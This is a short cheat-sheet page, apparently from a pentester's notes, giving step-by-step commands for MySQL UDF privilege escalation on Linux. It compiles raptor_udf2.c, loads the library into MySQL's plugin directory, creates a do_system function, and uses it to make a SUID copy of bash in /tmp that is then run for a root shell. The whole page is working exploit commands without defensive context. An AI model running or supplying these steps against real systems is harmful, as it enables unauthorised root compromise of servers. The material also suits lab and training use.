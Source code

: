 ```yaml
---
description: when wanna privilege a system, using mysql DB
---
```


# mysql

first, go to mysql location and compile it :&#x20;

```bash
cd /home/user/tools/mysql-udf

gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

mysql -u root
```

now run these commands on mysql console to get root shell :&#x20;

{% code overflow="wrap" %}
```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

# Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
{% endcode %}

then, exit and run the file you made at /tmp/rootbash :&#x20;

```bash
/tmp/rootbash -p
```

